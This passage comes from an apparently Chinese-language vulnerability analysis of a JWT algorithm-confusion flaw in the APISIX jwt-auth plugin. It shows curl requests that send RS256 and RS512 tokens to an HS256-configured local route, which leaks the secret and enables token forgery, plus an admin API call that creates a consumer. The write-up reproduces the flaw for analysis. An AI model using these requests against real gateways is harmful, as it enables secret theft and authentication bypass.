 将刚才由 RS256 算法生成的 JWT 值发送给 HS256 算法验证的路由，这样就可以获得刚才设置的 secret 值了。

```shell
curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.mF27BBWlXPb3fTiFufhcL3K9y99b8kioMmp7eMwRhB1kZjK62aJ_R6SB0A_Kmym8a7U2S3zYLue9mkD4FGGmhwmkmUGppjZdtwfxrZc7JvvdpJbihNGxdfn9ywUspr6DX831e29VAy1DnLT6cU8do_9MFklxrRbhTVpDOsOADEhh6Q5zdTKPz3h5pKHSQYO4y5Xd0bmRM7TqRvhfIRchmvroaJBQjP6TrDrN_x2elRpPsuabYmCNH_G7m6x5ouf0bqoOkOmsk3alJ6zNZFDY6-aTS4vDD8SDlSbAXkCh5DN-C10YQ6ZYWUGmcbap7hQhaIVJRlZRtaXMFbmabLwhgg -i
```

<img width="1000" src="/img/1651304089.png">

当我们拿到这个 sceret 值后，就可以伪造 JWT Token 了。

那么根据上面的漏洞分析，这里如果使用 RS512 算法应该也能触发这个漏洞，在 jwt.io 上生成 RS512 的 JWT 值如下：

<img width="1000" src="/img/1651304149.png">

```plain
eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.bMCMT2wCP8X6duvDDuaR232ae3XkA3d2g-FKvI-D73sk8nTRWZEfovoh_FFi5PquyC81J5i5bED-rh1RMuDHlJVMYDKTP-EPdoRxugBdCCq9iEL3A004PTQM21rWLcPe1SOqp2Qvcf41iH-5r5Zs5cuAraQm4qFyhooCziSIPNnbyb8VUMx6k7fGS-WIBMVti-SjG5dEGLwAckCjc_XYMPrHqMRFYU_sB6jY05xX_9u5PFnuOQiu-q3c7gZLHdVSzHeYQGct-nrjcrM2VHvdkMIwMOr25UMhu200HFDhpLXuWpic7WC-rtztTZOtZne7UZ4s6MlnJavZiXWEq3Ovew
```

利用 curl 访问

```shell
curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.bMCMT2wCP8X6duvDDuaR232ae3XkA3d2g-FKvI-D73sk8nTRWZEfovoh_FFi5PquyC81J5i5bED-rh1RMuDHlJVMYDKTP-EPdoRxugBdCCq9iEL3A004PTQM21rWLcPe1SOqp2Qvcf41iH-5r5Zs5cuAraQm4qFyhooCziSIPNnbyb8VUMx6k7fGS-WIBMVti-SjG5dEGLwAckCjc_XYMPrHqMRFYU_sB6jY05xX_9u5PFnuOQiu-q3c7gZLHdVSzHeYQGct-nrjcrM2VHvdkMIwMOr25UMhu200HFDhpLXuWpic7WC-rtztTZOtZne7UZ4s6MlnJavZiXWEq3Ovew -i
```

<img width="1000" src="/img/1651304176.png">

果然使用 RS512 算法同样可以触发，说明漏洞分析的没毛病。

接着看看如果 secret 中包含了 CERTIFICATE 和 PUBLIC KEY 字符串，会返回什么。

重新开一个环境后，创建一个 consumer 对象，这次 secret 设置为 teamssix-CERTIFICATE

```shell
curl http://127.0.0.1:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
"username": "jack",
"plugins": {
"jwt-auth": {
"key": "rs-key",
"secret": "teamssix-CERTIFICATE"
}
}
}'
```
